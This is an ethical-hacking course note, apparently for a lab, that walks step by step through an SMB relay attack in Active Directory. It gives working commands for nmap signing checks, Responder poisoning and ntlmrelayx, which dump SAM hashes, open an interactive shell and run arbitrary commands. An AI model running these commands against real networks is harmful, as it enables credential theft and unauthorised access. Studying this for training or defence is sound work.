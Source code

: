 ___
### What is SMB Relay?
- Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

### Requirements 
- SMB signing must be disabled or not enforced on the target.
- Relayed user credentials must be admin on machine for any real value.

### Identify Hosts Without SMB Signing

```
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025150646.png)

### SMB Relay

Step 1 : Run Responder
```
sudo mousepad /etc/responder/Responder.conf
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025150836.png)

Step 2 : Run Responder
```
sudo responder -I tun0 -dwP
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151048.png)

Step 3 : Set up your relay
```
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151158.png)
Step 4 : An Event Occurs...
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151309.png)

Step 5 : Win
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151426.png)

Other Wins 
```
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```
- We get an interactive shell with the SAM dump by using -i in the command.
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151709.png)

```
nc 127.0.0.1 11000
```
- We can connect to this machine, we can look at shares, we can look through the file system and we can do a lot of different stuff via the shell that we have created.
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151905.png)

- We can also do commands using the -c "whoami" for example and we can do more malicious things such as add a local user with admin access and have more control on the system but we dont need to do that as the SAM dump we get thats enough.
```
sudo ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025152349.png)



